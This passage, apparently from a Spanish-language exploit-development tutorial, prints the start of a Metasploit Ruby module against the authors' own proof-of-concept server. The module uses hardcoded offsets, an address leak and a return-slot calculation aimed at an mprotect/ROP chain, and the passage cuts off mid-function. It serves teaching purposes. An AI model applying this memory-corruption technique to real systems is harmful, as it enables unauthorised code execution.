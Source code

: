 

#### Desarrollo de un exploit

Ya contamos con mecanismos potentes de lectura y de escritura. Lo que sigue a continuación es encadenarlos para construir un exploit. Primero presentaremos el módulo de Metasploit, y luego lo analizaremos paso por paso.

El módulo completo de Metasploit es el siguiente:

```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = AverageRanking

  include Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => '6669 Basic Exploit',
      'Description'    => 'Exploit for PoC server',
      'Author'         => [ 'abarreal', 'cromano' ],
      'Privileged'     => false,
      'Payload'        => {
          'Space' => 64
        },
      'Platform'       => 'linux',
      'Arch'           => [ ARCH_X64 ],
      'DefaultOptions' => {
          'RPORT' => 16000
        },
      'Targets'        =>
        [
          [ 'Ubuntu 18.04 x86_64', {
                'Arch' => ARCH_X64,
                'Platform' => 'linux',
                'Offset from profile to buffer' => 0x50,
                'Offset from profile to ret' => 0x1f8,
                'Offset from profile to pointer to f' => 0x258,
                'Offset from f to mprotect' => 0xf9f49,
                'Offset from code leak to ROP anchor' => 0x35
          }]
        ],
      'DefaultTarget' => 0))
  end

  def exploit
    begin
      print "[*] Connecting...\n\n"
      connect 

      # Obtenemos la dirección del objeto profile.
      addr_profile = retrieve_profile_address()
      
      # Calculamos la dirección del buffer.
      addr_buffer = addr_profile + target['Offset from profile to buffer']
      print "[*] Computed buffer address: 0x#{addr_buffer.to_s(16)}.\n\n"
        
      # Calculamos la dirección de la dirección de retorno del frame.
      addr_ret = addr_profile + target['Offset from profile to ret']
      print "[*] Computed frame return slot address: 0x#{addr_profile.to_s(16)}.\n\n"
        
      # Calculamos la dirección de el puntero a __libc_start_main+231.
      addr_f_ptr = addr_profile + target['Offset from profile to pointer to f']
        
      # Obtenemos la dirección de __libc_start_main+231.
      print "[*] Trying to retrieve &__libc_start_main+231...\n"
```